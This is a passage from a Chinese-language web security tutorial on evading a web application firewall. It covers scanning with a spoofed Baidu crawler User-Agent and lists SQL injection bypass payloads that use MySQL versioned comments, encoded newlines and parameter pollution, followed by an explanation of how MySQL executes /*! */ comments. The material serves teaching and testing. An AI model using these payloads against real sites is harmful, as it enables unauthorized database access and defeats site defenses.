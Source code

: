 运行结果

![img](https://img.yatjay.top/md/202203251654487.png)

使用伪装脚本进行爬取，发现网站是没有任何拦截的。返回200的页面是存在的，404的页面不存在  

![](https://img.yatjay.top/md/202203251705303.png)

![](https://img.yatjay.top/md/202203251655549.png)

没有触发拦截，扫描结果正确，其原因就在于，请求的时候HTTP请求头部中添加了百度爬虫的User-Agent

### 方法五：数据库特性绕过补充——MySQL数据库版本编号特性绕过

数据库特性（补充）

```sql
%23x%0aunion%23x%0Aselect%201,2,3  

%20/*!44509union*/%23x%0aselect%201,2,3  //数据库版本编号特性

id=1/**&id=-1%20union%20select%201,2,3%23*/

%20union%20all%23%0a%20select%201,2,3%23  //all干扰union和select连续被匹配

```

分析下句

```sql
%20union%20/*!44509select*/%201,2,3
```

/\*!50001\*/ 注释解释

在MySQL里，多行解释 是 /* \*/，这个是SQL的标准 

但是MySQL扩张了解释 的功能

假如 在起头的/*后头加了惊叹号，那么此解释 里的语句将被执行，比如 

```bash
mysql> /*! select * from test */;
+------+
| id  |
+------+
|  1 |
|  2 |
|  3 |
+------+
3 rows in set (0.00 sec)
```

再看如下语句

```sql
/*!50001 select * from test */;
```
